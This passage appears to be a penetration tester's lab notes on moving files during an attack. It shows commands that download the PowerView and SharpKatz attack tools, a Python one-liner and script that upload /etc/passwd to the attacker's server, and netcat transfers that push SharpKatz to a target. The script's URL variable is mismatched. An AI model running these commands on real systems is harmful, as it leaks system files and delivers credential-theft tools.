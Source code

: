 I use this command to execute the file.

```powershell
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

### Python3

I start a web server.

```bash
python3 -m uploadserver
```

I execute a script on the remote machine.

```bash
python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```

I beautify the code.

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```

## Netcat

On the remote machine, I can start listening and waiting for data from a client.

```bash
nc -lp 8000 > SharpKatz.exe		     # nc
ncat -lp 8000 --recv-only > SharpKatz.exe    # ncat
```

I send data from my host to remote.

```bash
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
nc -q 0 192.168.49.129 8000 < SharpKatz.exe		# nc
ncat --send-only 192.168.49.129 8000 < SharpKatz.exe	# ncat
```

On the other hand, I can start the server and once there is a new connection, the server send the data to the client.
